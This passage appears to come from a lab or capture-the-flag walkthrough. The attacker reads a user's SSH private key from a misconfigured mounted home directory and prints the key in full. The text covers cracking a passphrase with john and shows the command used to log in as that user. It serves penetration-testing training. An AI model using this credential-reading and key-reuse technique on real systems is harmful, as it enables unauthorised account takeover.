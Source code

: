 ```commandline
-rw-r--r-- 1 dvanmosselbeen dvanmosselbeen  807 Apr  4  2018 .profile
drwx------ 2 dvanmosselbeen dvanmosselbeen 4.0K Apr 22  2020 .ssh
-rw-r--r-- 1 dvanmosselbeen dvanmosselbeen    0 Apr 22  2020 .sudo_as_admin_successful

┌──(root💀vm-dsktp-kali)-[/tmp/mount/cappucino]
└─# ls -lah .ssh
total 20K
drwx------ 2 dvanmosselbeen dvanmosselbeen 4.0K Apr 22  2020 .
drwxr-xr-x 5 dvanmosselbeen dvanmosselbeen 4.0K Jun  4  2020 ..
-rw------- 1 dvanmosselbeen dvanmosselbeen  399 Apr 22  2020 authorized_keys
-rw------- 1 dvanmosselbeen dvanmosselbeen 1.7K Apr 22  2020 id_rsa
-rw-r--r-- 1 dvanmosselbeen dvanmosselbeen  399 Apr 22  2020 id_rsa.pub

┌──(root💀vm-dsktp-kali)-[/tmp/mount/cappucino]
└─# cat .ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEA03JNcEu6K3LnfFYhiSjWMa4KxT4Q4KTh9uNxQaBBYHwnc7+1
nFl4FICPhjz8kLHmz826wDGU/x46RJno7l1n0Y4y5VTOX/oaGpTdmmbfUwGYvOPu
3Fj92rPoqu/RcFBNbrnqfpfajeinkMwtcOLBOpSak13P8km6JwBzELvKw2a2GL4N
SMzskVW6PNTKiCgwOmFJT4WOivkkgXAnuR4PXt/TSkAgpN3KDCR1a1xDhkO8+zxE
vpDP81rn2PD40lmfeh/yG6wJ9sVlqm1g9IbozHABaTPhx1d8RDn0Cz6gVvsNtS6h
yqBQazUtOOxreHunzRpabp3kAWf/Ao62fTR9hwIDAQABAoIBAQDRGQK9XxW+q8WB
LofBZJHU1SCvhz4XeNZAWREB7eFY8c3t6BJHiC54T94eyKaWzGbM7syUDTQjyZej
iXRQbCwjjfSE1wWy4df4m2g9rSeBpV2OxfTLEHIRWcJnb/r0j2TTb6UWBUNK/Fzg
kxkIviSJsrTdsHLYTdJ5iTdAwAS2j0mjTSVfUOjeB8kSF6o+e73a2PYpsh8gzh7i
Pj82ge1fXoA4Vkg+0Evv1ZoS3VDhJYhWfBrIr/l/JF52PPZfcELpl8ZCkAnXIL9M
bZomittLwudvtqTmADye2LhPu59vnz8SRQYiCLj/ICxz+Zo5syPRc4tQKw91VYMe
IWYQ+sG5AoGBAPj7v02GAhgp9v5yh/1VyAv0zRmSfbinyVeAywZELi2r93WMz2zL
Be3Ys35tlNxvpCHZQO8X23oWeYXkOmIw4OYJcPwHN48QilV1JO1G6jW362oefH4L
rHW/PXgW4Ur3/gMdSeiOtolT+Hz7weg+89begWkHSvSvDS6p9Jw8BE3dAoGBANln
wEKg+YLJpzBzuTOzUle/K6vsCQl5wynMz80t2Ntu0SAmsx7itX7cPMfjjIYjVkx3
kPA76EdZjI51fN0XKlJwUj7t//mj/VyO7iKdQkBiLfADDMmjawYk1hfFaAufTwSz
pXEfEQBzR+iF2uHjDd8cRUkQjibcr67pAawuN3yzAoGBALz47bhcJojKiQGUUeyQ
R9XzRhvLmIonJuS4Bt/JrbbSV24rol8zNFvSZmFlsF8iiNN7/hG57MWb+z4I+9r8
uCVAMzXGEIAQEL5Nu+ovMaH15sJTQy+zkoCH1pKn4vSwhmU8vJS6hIZ0ahwKRKEN
7qo9lMDvXQ+bMQkiy1otHyMtAoGBALj6kBmhAeuITJrrO/+DamKCpFPpx16qnaXp
QD4h7kv2pDUo+GslFqxUE9s3/476bikt6sKdFmvvA6sKyC0N0tLGAxTMSGpOX/rr
Gi+VgpNpdhCrZ6wBQcS+fvNG4dpRuFgVyoTPnBW4AM0VZ0GfgWP+l+0tCuaCC3FV
jDjGMiwFAoGAZeCCUXGze0dQpLsPK+phVf6mpYu9wD2EtNbj8ivGnEMMmuyTPxlW
puGt3aJ1+8YqgfPu6QhE/VgroYLOpww8GxnFeMhMgeOuJG+OtgVVAYpgoSRgVTXS
EGWF78kzFB6HSJBYnpr6LCFp8SRXKYeHEzR9upT30+F4RNaEJqvK6Ng=
-----END RSA PRIVATE KEY-----
```

We can make use of this misconfiguration to copy the private `id_rsa` key for ssh access of user `cappucino`. So we need to copy this file somewhere and then `chmod 600 id_rsa` to make sure this is only readable by us! Or just make straight use of it in this example. It could be that  the private key  request a passphrase, but then we can try to brut force the `id_rsa` key with `john`. Here it's not the case, and we can make use of it to log into a ssh server without a password:

```commandline
ssh -i .ssh/id_rsa cappucino@10.10.139.106
The authenticity of host '10.10.139.106 (10.10.139.106)' can't be established.
ECDSA key fingerprint is SHA256:YZbI4MCk+BQgHK2gc4cdmXuPTzO6m8CtiVRkPalFhlU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.139.106' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Aug  1 14:01:10 UTC 2021

```